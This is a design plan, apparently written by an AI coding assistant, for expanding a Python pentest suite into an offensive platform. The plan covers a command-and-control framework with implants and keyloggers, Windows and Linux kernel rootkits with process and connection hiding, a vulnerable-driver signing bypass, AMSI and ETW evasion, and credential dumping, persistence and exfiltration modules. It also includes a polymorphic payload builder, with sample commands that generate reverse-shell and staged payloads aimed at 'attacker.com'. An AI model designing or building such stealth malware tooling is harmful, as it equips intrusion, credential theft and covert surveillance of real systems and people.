

# Forge Suite v5 "APEX" — Master Architecture Plan

**From mid-tier VAPT tool → Enterprise-grade offensive platform competing with Cobalt Strike, Nessus, and Acunetix.**

**Current state**: 364+ Python files, NetForge rated 7.5-8.0/10, basic event bus + state store, no live dashboard UI, no C2, passive post-exploit, single-target only.

**Target state**: 600+ files, rating 9.5+/10, full C2 framework, rootkit post-exploitation, live web dashboard, multi-target bulk scanning, auto-updating intel, payload generation.

---

## User Review Required

> [!IMPORTANT]
> This is a **massive** architectural evolution. I've organized it into 8 pillars that can be built incrementally. Each pillar is independently valuable — you don't need all 8 to start competing. I recommend building in this order: **Dashboard → Multi-Target → C2 → Post-Exploit/Rootkit → Intel Pipeline → Payload Gen → Advanced Modules → Hardware Packaging**.

> [!WARNING]
> **Rootkit/kernel-mode modules** (Pillar 4) are the most complex and OS-specific. These require kernel driver development (Windows) or kernel module development (Linux). I'll architect the framework, but the actual kernel code needs careful testing on isolated VMs. These are for **authorized red team engagements only**.

> [!CAUTION]
> The C2 and rootkit capabilities push this firmly into **offensive weapon territory**. The existing safety constraints (scope checking, confirm gates, authorization prompts) will be extended but must remain non-negotiable.

---

## Open Questions

> [!IMPORTANT]
> **Q1: Dashboard tech stack** — I'm planning a **Python backend (FastAPI + WebSocket) with a vanilla JS/CSS frontend** that serves from a single `python forge.py dashboard` command. No Node.js build step required. The dashboard runs locally on `https://localhost:1337`. Sound good, or do you want a full React/Vite app?

> [!IMPORTANT]
> **Q2: C2 transport protocols** — Planning DNS-over-HTTPS, raw TCP/TLS, HTTP/S, and SMB named pipes. Should I also include ICMP tunneling and domain fronting?

> [!IMPORTANT]
> **Q3: Rootkit depth** — Full kernel rootkit (driver-level process hiding, SSDT hooking, file system filter) vs. userland rootkit (DLL injection, API hooking, scheduled task persistence)? I recommend **both** as separate modules with operator selection.

> [!IMPORTANT]
> **Q4: Deployment model** — Single operator workstation vs. team server (Cobalt Strike model) where multiple operators connect? I'm planning **both** — solo mode and team server mode.

---

## Architecture Overview



---

## Pillar 1: C2 Framework — `forge_c2/`

The Command & Control framework is the backbone that transforms Forge Suite from a scanner into a true red team platform. Modeled after Cobalt Strike's beacon architecture but with native Python implementation and modern encryption.

### Architecture

```
forge_c2/
├── __init__.py
├── server.py                    # C2 team server (multi-operator)
├── operator_shell.py            # Interactive operator console
├── transport/
│   ├── __init__.py
│   ├── base_transport.py        # Abstract transport interface
│   ├── http_transport.py        # HTTP/S beacon (primary)
│   ├── dns_transport.py         # DNS-over-HTTPS tunneling
│   ├── tcp_transport.py         # Raw TLS-encrypted TCP
│   ├── smb_transport.py         # SMB named pipe (lateral)
│   ├── icmp_transport.py        # ICMP tunnel (firewall evasion)
│   └── domain_front.py          # CDN domain fronting
├── beacon/
│   ├── __init__.py
│   ├── beacon_core.py           # Beacon lifecycle management
│   ├── beacon_task.py           # Task definition + serialization
│   ├── beacon_crypto.py         # AES-256-GCM + RSA key exchange
│   ├── beacon_sleep.py          # Sleep/jitter control + kill dates
│   └── beacon_registry.py       # Active beacon tracking
├── implant/
│   ├── __init__.py
│   ├── implant_builder.py       # Cross-platform implant generator
│   ├── implant_windows.py       # Windows PE implant template
│   ├── implant_linux.py         # Linux ELF implant template
│   └── implant_shellcode.py     # Position-independent shellcode
├── listeners/
│   ├── __init__.py
│   ├── http_listener.py         # HTTP/S listener
│   ├── dns_listener.py          # DNS listener
│   ├── tcp_listener.py          # Raw TCP listener
│   └── smb_listener.py          # SMB named pipe listener
└── tasks/
    ├── __init__.py
    ├── task_shell.py             # Remote shell execution
    ├── task_download.py          # File download from target
    ├── task_upload.py            # File upload to target
    ├── task_screenshot.py        # Desktop screenshot capture
    ├── task_keylog.py            # Keylogger start/stop
    ├── task_process.py           # Process listing/injection
    ├── task_registry.py          # Windows registry operations
    ├── task_socks.py             # SOCKS proxy deployment
    └── task_pivot.py             # Pivot/tunnel through beacon
```

#### [NEW] `forge_c2/server.py`
Team server supporting multiple operators with role-based access. WebSocket API for dashboard integration. SQLite backend for engagement persistence.

**Key features:**
- Multi-operator support (viewer / operator / admin roles)
- Engagement isolation (separate DBs per engagement)
- AES-256-GCM encrypted operator ↔ server comms
- Audit logging of all operator actions
- REST API for dashboard integration

#### [NEW] `forge_c2/beacon/beacon_core.py`
Beacon lifecycle: check-in, tasking, result collection, kill.

**Key features:**
- Configurable sleep interval with jitter (triangular distribution matching OpSec engine)
- Kill date / kill switch
- Transport failover (HTTP → DNS → ICMP)
- Session key rotation every N check-ins
- Heartbeat / keepalive
- Metadata collection on first check-in (hostname, OS, arch, privileges, AV products, domain membership)

#### [NEW] `forge_c2/beacon/beacon_crypto.py`
Cryptographic layer for all C2 communications.

```python
# Key exchange: RSA-4096 for initial handshake
# Session encryption: AES-256-GCM with per-message nonce
# Message authentication: HMAC-SHA256
# Key rotation: Every 100 check-ins or 24 hours
```

#### [NEW] `forge_c2/operator_shell.py`
Interactive operator console with tab completion, history, and command aliasing. Think Cobalt Strike's beacon console.

```
forge-c2> beacons
ID      HOSTNAME        IP              OS              LAST SEEN       SLEEP
001     DESKTOP-ABC     10.0.0.15       Win10 x64       2s ago          60s/20%
002     WEB-01          10.0.0.20       Ubuntu 22       5s ago          30s/10%

forge-c2> interact 001
[001/DESKTOP-ABC]> shell whoami
[001/DESKTOP-ABC]> hashdump
[001/DESKTOP-ABC]> screenshot
[001/DESKTOP-ABC]> socks 1080
[001/DESKTOP-ABC]> pivot 10.0.0.30
```

---

## Pillar 2: Live War Room Dashboard

This is the crown jewel for operator experience. A real-time, WebSocket-driven dashboard that rivals Acunetix/Nessus/Cobalt Strike.

### Architecture

```
common/dashboard/
├── __init__.py                  # (existing)
├── event_bus.py                 # (existing — extend with new event types)
├── kill_chain.py                # (existing — wire to live findings)
├── metrics.py                   # (existing)
├── state_store.py               # (existing — extend for multi-target)
├── server.py                    # [NEW] FastAPI + WebSocket backend
├── auth.py                      # [NEW] Dashboard authentication
├── engagement_manager.py        # [NEW] Multi-engagement tracking
├── tui/
│   ├── __init__.py              # (existing)
│   └── war_room_tui.py          # [NEW] Rich-based terminal dashboard
├── web/
│   ├── __init__.py              # (existing)
│   ├── static/
│   │   ├── css/
│   │   │   ├── dashboard.css    # [NEW] Main dashboard styles
│   │   │   ├── components.css   # [NEW] Component library
│   │   │   └── themes.css       # [NEW] Dark/light/hacker themes
│   │   ├── js/
│   │   │   ├── app.js           # [NEW] Main application
│   │   │   ├── websocket.js     # [NEW] WebSocket client + reconnect
│   │   │   ├── charts.js        # [NEW] Chart rendering (Canvas API)
│   │   │   ├── kill_chain.js    # [NEW] Kill chain visualization
│   │   │   ├── findings.js      # [NEW] Finding feed + filters
│   │   │   ├── targets.js       # [NEW] Target map + status
│   │   │   ├── modules.js       # [NEW] Module progress tracker
│   │   │   ├── timeline.js      # [NEW] Threat timeline
│   │   │   ├── credentials.js   # [NEW] Credential vault view
│   │   │   ├── sessions.js      # [NEW] Active sessions panel
│   │   │   ├── c2_panel.js      # [NEW] C2 beacon management
│   │   │   ├── controls.js      # [NEW] Pause/Resume/Abort controls
│   │   │   └── notifications.js # [NEW] Toast + alert system
│   │   └── img/
│   │       └── forge_logo.svg   # [NEW] Logo asset
│   └── templates/
│       ├── index.html           # [NEW] Main dashboard SPA
│       ├── login.html           # [NEW] Auth page
│       └── engagement.html      # [NEW] Engagement selection
```

#### [NEW] `common/dashboard/server.py`
FastAPI application serving the dashboard.

**Endpoints:**
```
GET  /                           → Dashboard SPA
GET  /api/v1/state               → Full state snapshot
GET  /api/v1/findings            → Paginated findings (filter by severity, module, target)
GET  /api/v1/targets             → Target status map
GET  /api/v1/engagements         → List all engagements
POST /api/v1/engagements         → Create new engagement
POST /api/v1/control/pause       → Pause current scan
POST /api/v1/control/resume      → Resume paused scan
POST /api/v1/control/abort       → Abort current scan
POST /api/v1/control/skip-module → Skip current module
GET  /api/v1/reports/:id         → Download generated report
WS   /ws/dashboard               → Real-time event stream
WS   /ws/c2                      → C2 operator WebSocket
```

**Key features:**
- Serves on `https://localhost:1337` with self-signed TLS
- JWT authentication (token-based, no cookies)
- WebSocket with automatic reconnect + event replay on connect
- State snapshot on initial connect, then delta updates
- Supports multiple concurrent dashboard clients

#### [NEW] Dashboard UI Panels

The dashboard is a single-page application with these panels:

**1. Command Bar (top)**
- Engagement name, target, framework, elapsed time
- Pause ⏸ / Resume ▶ / Abort ⏹ buttons
- OpSec level indicator (🟢 Normal / 🟡 Stealth / 🔴 Aggressive)

**2. Kill Chain Pipeline (top section)**
- 7-stage horizontal pipeline (matching existing `kill_chain.py`)
- Each stage shows: icon, completion %, finding count
- Active stage pulses/glows
- Click a stage → filters findings to that phase

**3. Findings Feed (main panel, left)**
- Real-time scrolling feed of findings
- Color-coded severity badges (Critical=red, High=orange, Medium=yellow, Low=blue, Info=gray)
- Filter by: severity, module, target, CVSS score
- Click finding → detail panel with evidence, reproduction steps, remediation
- Export selected findings

**4. Target Map (main panel, right)**
- Grid/list of all targets with status indicators
- 🔴 Compromised (shell) / 🟠 Pwned (creds) / 🟢 Clean / ⚪ Scanning / 🔵 Queued
- Shows: IP, hostname, OS, open ports, credentials found
- For multi-target: progress bar per target

**5. Module Progress (bottom left)**
- Phase-grouped module list
- Status: ⏳ Queued → 🔄 Running → ✅ Complete → ❌ Failed → ⏭ Skipped
- Progress bar per module
- Duration and finding count

**6. Metrics Panel (bottom center)**
- Requests/sec chart (rolling 60s)
- Findings by severity (donut chart)
- Total requests, errors, WAF blocks
- Bandwidth in/out
- Estimated time remaining

**7. Threat Timeline (bottom right)**
- Chronological event log
- Color-coded by event type
- Auto-scroll with pause on hover

**8. Credentials Vault (tab)**
- Table of discovered credentials
- Type, account, masked secret, target, discovered by
- Export functionality

**9. C2 Sessions (tab, if C2 active)**
- Active beacon list
- Beacon console (interactive)
- Task history per beacon

**10. Network Topology (tab, NetForge only)**
- Force-directed graph of discovered network
- Color-coded by compromise status
- Click node → target details

### Dashboard Themes

Three themes matching operator preferences:
- **Hacker Dark** (default): Deep blacks, neon green/cyan accents, terminal vibes
- **Professional Dark**: Slate grays, muted blues, corporate look
- **Light**: For reports and presentations

---

## Pillar 3: Multi-Target Engine

Support for bulk scanning with `--targets file.txt` or `--url target`.

### Architecture

```
common/
├── target_manager.py            # [NEW] Multi-target orchestration
├── target_queue.py              # [NEW] Priority queue + dedup
├── engagement_scheduler.py      # [NEW] Concurrent engagement scheduling
```

#### [MODIFY] `forge.py`
Add new CLI arguments:

```bash
# Single target (existing)
python forge.py web --url https://example.com

# Single target (alias)
python forge.py web --target https://example.com

# Multi-target from file
python forge.py web --targets targets.txt

# Multi-target with concurrency control
python forge.py web --targets targets.txt --parallel 5

# Resume interrupted multi-target scan
python forge.py web --targets targets.txt --resume engagement_dir/

# Mixed — NetForge with CIDR + targets file
python forge.py net --target 10.0.0.0/24 --targets additional_hosts.txt
```

**targets.txt format:**
```
# Comments supported
https://example.com
https://target2.com
10.0.0.0/24
192.168.1.1
dc01.corp.local
# Inline options
https://api.example.com --auth-token=xyz --rate=5
```

#### [NEW] `common/target_manager.py`
Orchestrates scanning across multiple targets with:

- **Priority queue**: Targets ordered by priority (manual or auto-scored)
- **Deduplication**: No double-scanning of the same host
- **Concurrency control**: Max N targets scanned in parallel
- **Per-target state**: queued / scanning / paused / completed / failed / aborted
- **Pause/Resume**: Pause individual targets or the entire engagement
- **Progress persistence**: SQLite-backed, survives crashes
- **Result aggregation**: Combined report across all targets

#### [NEW] `common/engagement_scheduler.py`
Scheduled and recurring scans:

```bash
# Run scan at 2am
python forge.py web --targets prod.txt --schedule "02:00"

# Run weekly
python forge.py web --targets prod.txt --schedule "weekly:monday:02:00"

# Continuous monitoring (rescan every 24h)
python forge.py web --targets prod.txt --continuous --interval 24h
```

---

## Pillar 4: Post-Exploitation + Rootkit Engine

### Architecture

```
netforge/modules/post_exploit/
├── __init__.py                  # (existing)
├── pivot_finder.py              # [REWRITE] Active pivot deployment
├── loot_parse.py                # [REWRITE] SAM/SYSTEM/NTDS parsing
├── tunnel_suggest.py            # (existing)
├── socks_deploy.py              # [NEW] SOCKS4a/5 proxy deployment
├── sam_dump.py                  # [NEW] SAM/SYSTEM hive extraction + parsing
├── ntds_dump.py                 # [NEW] NTDS.dit extraction (VSS/remote)
├── mimikatz_exec.py             # [NEW] In-memory credential harvesting
├── token_steal.py               # [NEW] Token impersonation
├── lateral_smb.py               # [NEW] SMBExec lateral movement
├── lateral_wmi.py               # [NEW] WMI lateral movement
├── lateral_winrm.py             # [NEW] WinRM lateral movement
├── lateral_psexec.py            # [NEW] PsExec lateral movement
├── lateral_dcom.py              # [NEW] DCOM lateral movement
├── lateral_ssh.py               # [NEW] SSH key-based lateral
├── persist_schtask.py           # [NEW] Scheduled task persistence
├── persist_registry.py          # [NEW] Registry run key persistence
├── persist_service.py           # [NEW] Windows service persistence
├── persist_wmi_event.py         # [NEW] WMI event subscription
├── persist_startup.py           # [NEW] Startup folder persistence
├── persist_cron.py              # [NEW] Linux cron persistence
├── persist_systemd.py           # [NEW] Linux systemd persistence
├── data_staging.py              # [NEW] Data collection + staging
├── exfil_engine.py              # [NEW] Data exfiltration (DNS/HTTP/ICMP)
├── screenshot_remote.py         # [NEW] Remote desktop capture
├── keylog_deploy.py             # [NEW] Keylogger deployment
└── av_evasion.py                # [NEW] AV/EDR evasion checks

netforge/modules/rootkit/
├── __init__.py                  # [NEW]
├── rootkit_base.py              # [NEW] Abstract rootkit interface
├── userland_rootkit.py          # [NEW] Userland rootkit (DLL injection)
├── kernel_rootkit.py            # [NEW] Kernel driver rootkit (Windows)
├── linux_rootkit.py             # [NEW] Linux kernel module rootkit
├── process_hollow.py            # [NEW] Process hollowing
├── dll_inject.py                # [NEW] DLL injection techniques
├── reflective_load.py           # [NEW] Reflective DLL loading
├── syscall_unhook.py            # [NEW] Direct syscall / unhooking
├── amsi_bypass.py               # [NEW] AMSI bypass techniques
├── etw_blind.py                 # [NEW] ETW patching
├── ppid_spoof.py                # [NEW] Parent PID spoofing
└── fileless_exec.py             # [NEW] Fileless execution engine
```

#### [NEW] `netforge/modules/rootkit/userland_rootkit.py`
Userland persistence with stealth:

- **API Hooking**: Inline hooks on NtQuerySystemInformation, NtQueryDirectoryFile
- **DLL Injection**: CreateRemoteThread, NtCreateThreadEx, APC injection
- **Process Hiding**: Hook process enumeration APIs to hide implant
- **File Hiding**: Hook directory enumeration to hide dropped files
- **Registry Hiding**: Hook registry enumeration APIs
- **Network Hiding**: Hook network enumeration to hide C2 connections
- All hooks use trampoline pattern for clean unhooking on cleanup

#### [NEW] `netforge/modules/rootkit/kernel_rootkit.py`
Windows kernel-mode rootkit (requires admin/SYSTEM):

- **DKOM**: Direct Kernel Object Manipulation for process hiding
- **SSDT Hooking**: System Service Descriptor Table hooks
- **IRP Hooking**: I/O Request Packet hooks for filesystem filter
- **Minifilter Driver**: File system minifilter for hiding files
- **Network Filter**: NDIS/WFP filter for hiding connections
- **Registry Callbacks**: CmRegisterCallbackEx for registry hiding
- Driver signing bypass via vulnerable driver loading (BYOVD pattern)

#### [NEW] `netforge/modules/rootkit/linux_rootkit.py`
Linux kernel module rootkit:

- **Syscall Table Hooking**: Hook getdents64, kill, read for hiding
- **Proc Filesystem**: Hide from /proc enumeration
- **Network Hiding**: Netfilter hooks to hide connections
- **Module Hiding**: Remove module from module list
- **File Hiding**: VFS layer hooks
- Magic packet trigger for remote activation

---

## Pillar 5: Intelligence Pipeline — Auto-Updating CVE + Techniques

### Architecture

```
common/intel/
├── __init__.py                  # [NEW]
├── intel_engine.py              # [NEW] Main intelligence coordinator
├── cve_sync.py                  # [NEW] NVD/MITRE CVE database sync
├── exploit_db_sync.py           # [NEW] Exploit-DB mirror + search
├── nuclei_sync.py               # [NEW] Nuclei template auto-update
├── technique_learner.py         # [NEW] MITRE ATT&CK technique database
├── signature_update.py          # [NEW] Custom vulnerability signatures
├── offline_db.py                # [NEW] SQLite offline database manager
├── osint_feeds.py               # [NEW] OSINT threat feed aggregator
└── data/
    ├── cve_cache.db             # SQLite CVE database
    ├── exploits.db              # Exploit database
    ├── nuclei_templates/        # Auto-synced templates
    ├── signatures/              # Custom vuln signatures
    └── techniques.db            # ATT&CK technique database
```

#### [NEW] `common/intel/intel_engine.py`
Central intelligence coordinator:

```bash
# Manual sync
python forge.py intel sync --all
python forge.py intel sync --cve
python forge.py intel sync --exploits
python forge.py intel sync --nuclei

# Auto-sync on startup (if online)
python forge.py web --target example.com --auto-update

# Offline mode (uses cached data)
python forge.py web --target example.com --offline

# Search local intel
python forge.py intel search "Apache 2.4"
python forge.py intel search --cve CVE-2024-1234
```

**Auto-update sources:**
- **NVD API v2**: CVE data with CVSS scores, affected products, references
- **Exploit-DB**: Searchable exploit database with PoC code
- **Nuclei Templates**: ProjectDiscovery nuclei template repository
- **MITRE ATT&CK**: Technique database with detection guidance
- **EPSS**: Exploit Prediction Scoring System for prioritization
- **CISA KEV**: Known Exploited Vulnerabilities catalog
- **GitHub Security Advisories**: For dependency scanning

**Offline operation:**
- Full SQLite database shipped with install (initial seed)
- Differential updates when online (only fetch new/modified CVEs)
- Last-synced timestamp displayed in dashboard
- Stale data warnings (>7 days old)

---

## Pillar 6: Payload Generation Framework

### Architecture

```
forge_payload/
├── __init__.py                  # [NEW]
├── payload_factory.py           # [NEW] Main payload builder
├── shellcode/
│   ├── __init__.py
│   ├── shellcode_x64.py         # [NEW] x64 shellcode templates
│   ├── shellcode_x86.py         # [NEW] x86 shellcode templates
│   └── shellcode_arm64.py       # [NEW] ARM64 shellcode templates
├── encoders/
│   ├── __init__.py
│   ├── xor_encoder.py           # [NEW] XOR encoding
│   ├── aes_encoder.py           # [NEW] AES-256 encryption stub
│   ├── polymorphic.py           # [NEW] Polymorphic engine
│   └── shikata_ga_nai.py        # [NEW] SGN-style encoder
├── formats/
│   ├── __init__.py
│   ├── pe_builder.py            # [NEW] Windows PE builder
│   ├── elf_builder.py           # [NEW] Linux ELF builder
│   ├── dll_builder.py           # [NEW] DLL builder
│   ├── ps1_builder.py           # [NEW] PowerShell payload
│   ├── hta_builder.py           # [NEW] HTA payload
│   ├── vba_builder.py           # [NEW] VBA macro payload
│   ├── msi_builder.py           # [NEW] MSI installer payload
│   └── iso_builder.py           # [NEW] ISO container
├── stagers/
│   ├── __init__.py
│   ├── http_stager.py           # [NEW] HTTP/S staged payload
│   ├── dns_stager.py            # [NEW] DNS staged payload
│   └── smb_stager.py            # [NEW] SMB staged payload
└── evasion/
    ├── __init__.py
    ├── string_obfuscate.py      # [NEW] String obfuscation
    ├── control_flow.py          # [NEW] Control flow flattening
    ├── import_obfuscate.py      # [NEW] Import table obfuscation
    ├── timestamp_stomp.py       # [NEW] PE timestamp manipulation
    └── sandbox_detect.py        # [NEW] Sandbox/VM detection
```

#### [NEW] `forge_payload/payload_factory.py`
Unified payload generation interface:

```bash
# Generate reverse shell payload
python forge.py payload --type reverse_tcp --lhost 10.0.0.5 --lport 4444 --format exe --arch x64 --encode aes

# Generate staged payload
python forge.py payload --type staged_https --lhost attacker.com --lport 443 --format dll

# Generate PowerShell one-liner
python forge.py payload --type reverse_tcp --lhost 10.0.0.5 --lport 4444 --format ps1

# List available payloads
python forge.py payload --list
```

---

## Pillar 7: Advanced Module Upgrades

### NetForge v4 — New Modules

```
netforge/modules/exploit/
├── log4shell.py                 # [NEW] CVE-2021-44228 Log4j RCE
├── proxyshell.py                # [NEW] CVE-2021-34473 Exchange ProxyShell
├── proxylogon.py                # [NEW] CVE-2021-26855 Exchange ProxyLogon
├── spring4shell.py              # [NEW] CVE-2022-22965 Spring RCE
├── printnightmare.py            # [NEW] CVE-2021-34527 Print Spooler RCE
├── follina.py                   # [NEW] CVE-2022-30190 MSDT RCE
├── petitpotam.py                # [NEW] CVE-2021-36942 NTLM relay via EFS
├── certifried.py                # [NEW] CVE-2022-26923 AD CS domain escalation
├── smbghost.py                  # [NEW] CVE-2020-0796 SMBv3 compression RCE
├── citrix_bleed.py              # [NEW] CVE-2023-4966 Citrix session hijack
├── moveit_rce.py                # [NEW] CVE-2023-34362 MOVEit SQLi to RCE
└── confluence_rce.py            # [NEW] CVE-2023-22515 Confluence broken access

netforge/modules/services/
├── ldap_audit.py                # [ENHANCE] LDAP signing, channel binding
├── kerberos_audit.py            # [NEW] Kerberos config audit
├── winrm_audit.py               # [NEW] WinRM configuration audit
├── mqtt_audit.py                # [NEW] MQTT broker audit
├── coap_audit.py                # [NEW] CoAP IoT protocol audit
└── opcua_audit.py               # [NEW] OPC-UA ICS protocol audit
```

### WebForge v2 — New Modules

```
webforge/modules/
├── advanced/
│   ├── graphql_introspection.py # [NEW] Deep GraphQL analysis
│   ├── jwt_forgery.py           # [NEW] JWT key confusion attacks
│   ├── prototype_pollution.py   # [ENHANCE] Server-side prototype pollution
│   └── dom_clobbering.py        # [NEW] DOM clobbering attacks
├── api/
│   ├── swagger_exploit.py       # [NEW] Swagger/OpenAPI endpoint abuse
│   ├── api_key_leak.py          # [NEW] API key detection in responses
│   └── grpc_audit.py            # [NEW] gRPC service audit
└── cloud/
    ├── s3_bucket_enum.py        # [NEW] AWS S3 bucket enumeration
    ├── azure_blob_enum.py       # [NEW] Azure blob storage enum
    └── gcp_bucket_enum.py       # [NEW] GCP bucket enum
```

---

## Pillar 8: Hardware Requirements & Deployment

### Minimum Requirements

| Component | Minimum | Recommended | Heavy Engagement |
|-----------|---------|-------------|-----------------|
| **CPU** | 4 cores / 8 threads | 8 cores / 16 threads | 16+ cores / 32 threads |
| **RAM** | 8 GB | 16 GB | 32-64 GB |
| **Storage** | 50 GB SSD | 256 GB NVMe SSD | 1 TB NVMe SSD |
| **Network** | 100 Mbps | 1 Gbps | 10 Gbps |
| **OS** | Kali Linux 2024+ / Ubuntu 22.04+ / Windows 11 | Kali Linux 2024+ | Dedicated server |
| **Python** | 3.11+ | 3.12+ | 3.12+ |
| **GPU** | None | None | Optional (password cracking) |

### Deployment Modes

```
┌─────────────────────────────────────────────────────────┐
│              Forge Suite v5 Deployment Modes             │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  1. SOLO MODE (Single Operator)                        │
│     └── Laptop/Desktop running all components          │
│     └── Dashboard at localhost:1337                    │
│     └── All data stored locally                        │
│                                                         │
│  2. TEAM SERVER MODE (Multi-Operator)                  │
│     └── Dedicated server running C2 + Dashboard        │
│     └── Operators connect via HTTPS                    │
│     └── Shared engagement data                         │
│     └── Role-based access (viewer/operator/admin)      │
│                                                         │
│  3. DISTRIBUTED MODE (Large Engagement)                │
│     └── Multiple scan nodes + central coordinator      │
│     └── Each node runs subset of targets               │
│     └── Results aggregated at coordinator              │
│     └── Dashboard shows all nodes                      │
│                                                         │
│  4. OFFLINE MODE (Air-Gapped)                          │
│     └── Pre-loaded intel database                      │
│     └── No internet connectivity required              │
│     └── USB-deployable package                         │
│     └── Results exported for external analysis         │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

### Docker Packaging

```dockerfile
# forge-suite-apex.Dockerfile
FROM kalilinux/kali-rolling
RUN apt-get update && apt-get install -y \
    python3.12 python3-pip nmap nuclei \
    masscan netcat-openbsd proxychains4 \
    libssl-dev libffi-dev build-essential
COPY forge-suite/ /opt/forge-suite/
RUN pip3 install -r /opt/forge-suite/requirements.txt
EXPOSE 1337 4444 8443 53
ENTRYPOINT ["python3", "/opt/forge-suite/forge.py"]
```

---

## Proposed Changes — File Summary

### Common Infrastructure

| File | Action | Description |
|------|--------|-------------|
| `common/dashboard/server.py` | **NEW** | FastAPI + WebSocket dashboard backend |
| `common/dashboard/auth.py` | **NEW** | JWT authentication for dashboard |
| `common/dashboard/engagement_manager.py` | **NEW** | Multi-engagement tracking |
| `common/dashboard/web/static/css/dashboard.css` | **NEW** | Main dashboard styles (dark theme) |
| `common/dashboard/web/static/css/components.css` | **NEW** | Reusable component library |
| `common/dashboard/web/static/css/themes.css` | **NEW** | Theme switcher (dark/light/hacker) |
| `common/dashboard/web/static/js/app.js` | **NEW** | Main SPA application |
| `common/dashboard/web/static/js/websocket.js` | **NEW** | WebSocket client with reconnect |
| `common/dashboard/web/static/js/charts.js` | **NEW** | Canvas-based chart rendering |
| `common/dashboard/web/static/js/kill_chain.js` | **NEW** | Kill chain pipeline visualization |
| `common/dashboard/web/static/js/findings.js` | **NEW** | Finding feed with filters |
| `common/dashboard/web/static/js/targets.js` | **NEW** | Target map visualization |
| `common/dashboard/web/static/js/modules.js` | **NEW** | Module progress tracker |
| `common/dashboard/web/static/js/timeline.js` | **NEW** | Threat timeline |
| `common/dashboard/web/static/js/credentials.js` | **NEW** | Credential vault view |
| `common/dashboard/web/static/js/sessions.js` | **NEW** | C2 session management |
| `common/dashboard/web/static/js/c2_panel.js` | **NEW** | C2 beacon console |
| `common/dashboard/web/static/js/controls.js` | **NEW** | Pause/Resume/Abort controls |
| `common/dashboard/web/static/js/notifications.js` | **NEW** | Toast notification system |
| `common/dashboard/web/templates/index.html` | **NEW** | Dashboard SPA shell |
| `common/dashboard/web/templates/login.html` | **NEW** | Authentication page |
| `common/dashboard/tui/war_room_tui.py` | **NEW** | Rich terminal dashboard |
| `common/target_manager.py` | **NEW** | Multi-target orchestration |
| `common/target_queue.py` | **NEW** | Priority queue + dedup |
| `common/engagement_scheduler.py` | **NEW** | Scheduled/recurring scans |
| `common/dashboard/event_bus.py` | **MODIFY** | Add C2, multi-target, control event types |
| `common/dashboard/state_store.py` | **MODIFY** | Extend for multi-target state tracking |

### C2 Framework

| File | Action | Description |
|------|--------|-------------|
| `forge_c2/__init__.py` | **NEW** | C2 package init |
| `forge_c2/server.py` | **NEW** | Team server (multi-operator) |
| `forge_c2/operator_shell.py` | **NEW** | Interactive operator console |
| `forge_c2/transport/base_transport.py` | **NEW** | Abstract transport interface |
| `forge_c2/transport/http_transport.py` | **NEW** | HTTP/S beacon transport |
| `forge_c2/transport/dns_transport.py` | **NEW** | DNS-over-HTTPS tunneling |
| `forge_c2/transport/tcp_transport.py` | **NEW** | Raw TLS-encrypted TCP |
| `forge_c2/transport/smb_transport.py` | **NEW** | SMB named pipe transport |
| `forge_c2/beacon/beacon_core.py` | **NEW** | Beacon lifecycle management |
| `forge_c2/beacon/beacon_task.py` | **NEW** | Task serialization |
| `forge_c2/beacon/beacon_crypto.py` | **NEW** | AES-256-GCM + RSA crypto |
| `forge_c2/beacon/beacon_registry.py` | **NEW** | Active beacon tracking |
| `forge_c2/listeners/http_listener.py` | **NEW** | HTTP/S listener |
| `forge_c2/listeners/dns_listener.py` | **NEW** | DNS listener |
| `forge_c2/listeners/tcp_listener.py` | **NEW** | Raw TCP listener |
| `forge_c2/tasks/task_shell.py` | **NEW** | Remote shell |
| `forge_c2/tasks/task_download.py` | **NEW** | File download |
| `forge_c2/tasks/task_upload.py` | **NEW** | File upload |
| `forge_c2/tasks/task_screenshot.py` | **NEW** | Desktop screenshot |
| `forge_c2/tasks/task_socks.py` | **NEW** | SOCKS proxy |

### Post-Exploitation + Rootkit

| File | Action | Description |
|------|--------|-------------|
| `netforge/modules/post_exploit/pivot_finder.py` | **REWRITE** | Active SOCKS deployment |
| `netforge/modules/post_exploit/loot_parse.py` | **REWRITE** | SAM/SYSTEM/NTDS parsing |
| `netforge/modules/post_exploit/socks_deploy.py` | **NEW** | SOCKS4a/5 proxy deployment |
| `netforge/modules/post_exploit/sam_dump.py` | **NEW** | SAM hive extraction |
| `netforge/modules/post_exploit/ntds_dump.py` | **NEW** | NTDS.dit extraction |
| `netforge/modules/post_exploit/mimikatz_exec.py` | **NEW** | In-memory credential harvesting |
| `netforge/modules/post_exploit/token_steal.py` | **NEW** | Token impersonation |
| `netforge/modules/post_exploit/lateral_smb.py` | **NEW** | SMBExec lateral movement |
| `netforge/modules/post_exploit/lateral_wmi.py` | **NEW** | WMI lateral movement |
| `netforge/modules/post_exploit/lateral_winrm.py` | **NEW** | WinRM lateral movement |
| `netforge/modules/post_exploit/lateral_psexec.py` | **NEW** | PsExec lateral movement |
| `netforge/modules/post_exploit/persist_schtask.py` | **NEW** | Scheduled task persistence |
| `netforge/modules/post_exploit/persist_registry.py` | **NEW** | Registry run key persistence |
| `netforge/modules/post_exploit/persist_service.py` | **NEW** | Service persistence |
